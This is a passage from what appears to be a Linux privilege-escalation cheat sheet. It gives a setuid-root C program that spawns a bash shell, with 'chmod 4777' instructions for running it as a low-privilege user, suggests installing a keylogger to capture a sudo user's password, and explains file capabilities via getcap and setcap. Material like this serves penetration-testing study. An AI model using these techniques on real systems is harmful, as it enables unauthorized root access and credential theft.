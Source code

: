 This code can be compiled and added to the share. Before executing it by your low-priv user make sure to set the suid-bit on it, like this:

```bash
chmod 4777 exploit
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    setuid(0);
    system("/bin/bash");
    return 0;
}
```


## Steal password through a keylogger

If you have access to an account with sudo-rights but you don't have its password you can install a keylogger to get it.

## Exploiting Capabilities

Capabilities provide fine-grained control over superuser permissions, allowing use of the root user to be avoided. Software developers are encouraged to replace uses of the powerful [https://en.wikipedia.org/wiki/Setuid](setuid) attributed in a system binary with a more minimal set of capabilities.

**Setting/Getting capabilities**

You can force capabilities upon programs using setcap, and query these using getcap.

```
getcap /sbin/ping
/sbin/ping = cap_net_raw+ep
```
This has initially been set by a user with cap_setfcap (root has it by default), via this command:
```
setcap cap_net_raw+ep /sbin/ping
```
You can find the list of capabilities via:
```
man capabilities
```

Capabilities can be used to improve security, but setting them blindly can be dangerous.

## Other useful stuff related to privesc

**World writable directories**
